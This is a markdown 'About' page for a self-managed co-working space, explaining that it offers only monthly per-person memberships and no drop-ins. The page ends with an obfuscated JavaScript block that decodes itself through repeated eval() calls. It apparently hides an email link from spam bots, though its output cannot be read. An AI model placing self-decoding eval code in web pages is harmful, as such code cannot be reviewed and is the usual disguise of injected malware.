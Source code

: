 ```yaml
---
title: About
weight: 20
---
```


### We only have monthly memberships. *We don't have a concierge which would be necessary to manage shorter-term visitors*.

Billing is month-to-month, per person. You are welcome to use the space for
shorter times but the mimimum fee is for one month. (The overhead of managing
shorter times does not make sense for us). This is a non-traditional co-working
space and is predominantly self managed, so we don't have a staff person to
handle drop-ins.

There are several coffee shops in town that provide internet if that's all you
need. If you need a closed space for a short time, you might find one of the
local hotels will serve your needs.

<script type="text/javascript">
//<![CDATA[
<!--
var x="function f(x){var i,o=\"\",l=x.length;for(i=0;i<l;i+=2) {if(i+1<l)o+=" +
"x.charAt(i+1);try{o+=x.charAt(i);}catch(e){}}return o;}f(\"ufcnitnof x({)av" +
" r,i=o\\\"\\\"o,=l.xelgnhtl,o=;lhwli(e.xhcraoCedtAl(1/)3=!29{)rt{y+xx=l;=+;" +
"lc}tahce({)}}of(r=i-l;1>i0=i;--{)+ox=c.ahAr(t)i};erutnro s.buts(r,0lo;)f}\\" +
"\"(4),3\\\"\\\\v|m~|ao 03\\\\0R\\\\]T_V31\\\\0V\\\\6V02\\\\\\\\ZQAV21\\\\04" +
"\\\\03\\\\\\\\\\\\\\\\\\\\\\\\DKB^X_NF06\\\\0W\\\\eK34\\\\03\\\\00\\\\\\\\f" +
"|tljipty85wzx|s/uya`,`iDdY$f9unni\\\\\\\\^]3'00\\\\\\\\13\\\\01\\\\02\\\\\\" +
"\\02\\\\07\\\\00\\\\\\\\33\\\\0=\\\\5S02\\\\\\\\37\\\\01\\\\03\\\\\\\\04\\\\"+
"04\\\\03\\\\\\\\02\\\\03\\\\03\\\\\\\\04\\\\0)\\\\rI\\\\\\\\21\\\\0n\\\\\\\\"+
"\\\\\\\\n2\\\\02\\\\\\\\_&25\\\\03\\\\00\\\\\\\\4:)?e(74x4=9?20602\\\\\\\\+" +
"#/&16\\\\06\\\\03\\\\\\\\+,4207\\\\0~\\\\6,)-S^37\\\\0`\\\\06\\\\0\\\\\\\\\\"+
"\\\\\\\\\\\\\\\\\\\\\\J\\\\6_02\\\\\\\\0T01\\\\\\\\21\\\\02\\\\03\\\\\\\\\\" +
"\\_\\\\\\\\J\\\\DZ\\\\^\\\\\\\\4\\\\00\\\\\\\\F]KBGPFL\\\"\\\\f(;} ornture;" +
"}))++(y)^(iAtdeCoarchx.e(odrChamCro.fngriSt+=;o27=1y%){++;i<l;i=0(ior;fthng" +
"lex.l=\\\\,\\\\\\\"=\\\",o iar{vy)x,f(n ioctun\\\"f)\")"                     ;
while(x=eval(x));
//-->
//]]>
</script>
